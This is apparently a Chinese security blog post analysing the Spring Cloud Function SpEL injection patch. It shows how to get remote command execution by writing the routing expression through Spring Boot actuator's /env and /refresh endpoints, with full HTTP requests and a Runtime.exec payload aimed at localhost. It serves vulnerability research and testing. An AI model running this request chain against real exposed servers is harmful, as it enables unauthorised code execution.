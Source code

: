 ```yaml
---
title: 基于actuator的 Spring Cloud Function RCE 利用技巧
commentable: false
Edit: 2022-05-01
mathjax: true
mermaid: true
tags: 漏洞分析
categories: 渗透测试
description: 如何通过actuator 在最新版本进行表达式注入
---
```


#背景

3月份的时候互联网上披露了Spring Cloud Function SPEL表达式注入漏洞，也就是Spring Cloud Function  从3.0.0.RELEASE 到3.2版本都存在一个表达式注入漏洞，这个漏洞也随后
在3.2.3版本被官方修复。既然我们无法通过Header注入，那么能否有其它办法改变spring.cloud.function.routing-expression的值从而执行代码呢？

# 代码改动

Spring Coud Function 官方在3.2.3版本修复了之前的commit为dc5128b 的SPEL注入漏洞，具体代码改动

![](../assets/SpringCloudFunction漏洞分析_images/913756d2.png)

可以看到重载了functionFromExpression方法，通过判断isViaHeader执行不同的处理过程，如果为真，就用SimpleEvaluationContext处理header 里面的输入，否则才用StandardEvaluationContext 处理。

![](../assets/Spring Cloud Function 漏洞分析_images/03af233d.png)

在取Header头中的spring.cloud.function.routing-expression 是调用了functionFromExpression(StringroutingExpression, Objectinput, booleanisViaHeader)，但是从配置文件中取这个字段的时候还是调用的functionFromExpression(StringroutingExpression, Objectinput)这个方法就是造成SPEL解析命令执行漏洞的关键。

![](../assets/Spring Cloud Function 漏洞分析_images/9b736cda.png)

因此理论上只要能够控制functionProperties.getRoutingExpression() 的值应该也能够触发这个漏洞。
进一步看下functionProperties类中的getRoutingExpression()方法

# 控制 functionProperties#getRoutingExpression()的取值

![](../assets/Spring Cloud Function 漏洞分析_images/83163e60.png)

跟进到FunctionProperties这个类，它通过@ConfigurationProperties(prefix = FunctionProperties.PREFIX) 注解绑定相应的外部配置参数的值，因此getRoutingExpression()方法就能够获取到
application.properties(yaml)中对应的”spring.cloud.function.routingExpression“的值。

因此如果更改了配置文件参数如下，则同样能够触发SPEL注入漏洞。
```jsregexp
spring.cloud.function.definition=functionRouter
spring.cloud.function.routingExpression=T(java.lang.Runtime).getRuntime().exec("calc")
```

![](../assets/2022-05-01-基于actuator的 Spring Cloud Function RCE 利用技巧_images/be23d750.png)

# 借助 actuator 修改环境变量

当然像上面的这种修改配置文件能够导致命令执行严格意义上并不能算是Spring-cloud-function的漏洞，因为配置文件是开发可以控制的，即非默认配置。
那么在实战中如何来控制配置文件信息呢？想到Spring Boot actuator 的 env 端点是能够更改环境变量属性信息的。

- 1.请求/env端点，写入配置

```jsregexp
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Content-Type: application/json
Content-Length: 109

{"name":"spring.cloud.function.routingExpression","value":"T(java.lang.Runtime).getRuntime().exec('calc')"}
```

![](../assets/2022-05-01-基于actuator的 Spring Cloud Function RCE 利用技巧_images/486ebf69.png)

- 2.请求/refresh端点，刷新配置生效
```jsregexp
POST /actuator/refresh HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
```

![](../assets/2022-05-01-基于actuator的 Spring Cloud Function RCE 利用技巧_images/2c635085.png)

- 3.最后通过请求/functionRouter 路由执行routingExpression 表达式
- 
```jsregexp
POST /functionRouter/qqq HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0

aaa
```

![](../assets/2022-05-01-基于actuator的 Spring Cloud Function RCE 利用技巧_images/8d1eecc3.png)

# tips
actuator 2.x 需要将env 和refresh 端点暴露出来，还有就是env 端点可写的特性是在Spring Cloud才具有的。
```
management.endpoint.refresh.enabled=true
management.endpoint.env.post.enabled=true
management.endpoints.web.exposure.include=env,restart,refresh
```

另外如果遇到了“POST /actuator/env returns 405 method not allowed”，表示env 端点不允许POST提交数据。这个是因为Spring Cloud 在Hoxton.SR3版本已经将env 端点的可写性做了一些改变（https://github.com/spring-projects/spring-boot/issues/20509），需要改成：
```
management.endpoint.refresh.enabled=true
management.endpoint.env.post.enabled=true
management.endpoints.web.exposure.include=env,restart,refresh
```
